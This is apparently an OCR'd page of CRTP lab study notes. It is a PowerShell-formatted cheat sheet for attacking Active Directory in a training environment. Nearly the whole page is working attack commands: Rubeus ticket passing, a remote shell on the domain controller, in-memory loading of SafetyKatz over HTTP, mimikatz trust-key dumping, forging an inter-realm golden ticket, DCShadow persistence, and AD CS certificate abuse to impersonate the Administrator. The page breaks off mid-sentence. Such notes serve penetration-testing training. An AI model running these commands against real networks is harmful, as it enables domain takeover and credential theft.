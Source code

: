 ```powershell
DA privileges on dollarcorp.moneycorp.local, get access to SharedwithDCorp share on the DC of eurocorp.local forest
# We need the trust key for the trust between dollarcorp and eurocrop
# Start a process with DA privileges. Run the below command from an elevated command prompt:
C:\AD\Tools\Rubeus.exe asktgt /user:svcadmin
CRTP 21
/aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011
/opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
# Using SafetyKatz.exe
# Run the below commands from the process running as DA to copy Loader.exe on dcorp-dc and use it to
# extract credentials
echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-dc\C$\Users\Public\Loader.exe /Y
# remote shell on the DC
winrs -r:dcorp-dc cmd
# port forwareding from the remote shell
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.111
# make shure you have web server on port 80 , with SafetyHatz.exe
# run the command from the remote shell in order to run the exe file in the memory
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe
mimikatz # lsadump::trust /patch
# copy the rc4_hmac_nt between DOLLARCORP.MONEYCORP.LOCAL -> EUROCORP.LOCAL
# Forge an inter-realm TGT. Run the below command from an elevated command prompt:
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden
/user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-
719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-
3279953914-519 /rc4:163373571e6c3e09673010fd60accdf0 /service:krbtgt
/target:eurocorp.local /ticket:C:\AD\Tools\trust_forest_tkt.kirbi" "exit"
# Use the ticket with Rubeus:
C:\AD\Tools\Rubeus.exe asktgs
/ticket:C:\AD\Tools\trust_forest_tkt.kirbi /service:cifs/eurocorp-dc.eurocorp.local /dc:eurocorp-dc.eurocorp.local /ptt
# Check if we can access explicitly shared resources eurocorp-dc!
dir \\eurocorp-dc.eurocorp.local\SharedwithDCorp\
Forest Persistence -DCShadow
# Open two mimikatz instaces :
# One to start RPC server with SYSTEM privileges and specify attributes to be modified:
!+
!processtoken
lsadump::dcshadow /object: /attribute: /value:
# Second with enough privileges (DA or otherwise) to push the values.
lsadump::dcshadow /push
DCShadow - Minimal Permissions
# use Set-DCShadowPermissions.ps1 from Nishang for setting the permissions.
# For example, to use DCShadow as user student1 to modify root1user object from machine mcorp-student1:
Set-DCShadowPermissions -FakeDC mcorp-student1 -SAMAccountName root1user -Username student1 -Verbose
AD CS Attack
https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-misconfigured-certificate-templateto-domain-admin
# check for AD CS in moneycorp
C:\AD\Tools\Certify.exe cas
# list all the templates
certify.exe find
# get some more information about it as it allows
# requestor to supply subject name:
C:\AD\Tools\Certify.exe find /enrolleeSuppliesSubject
# request a certificate for Domain Admin - Administrator:
C:\AD\Tools\Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:"HTTPSCertificates" /altname:administrator
# Copy all the text between -----BEGIN RSA PRIVATE KEY----- and -----END
```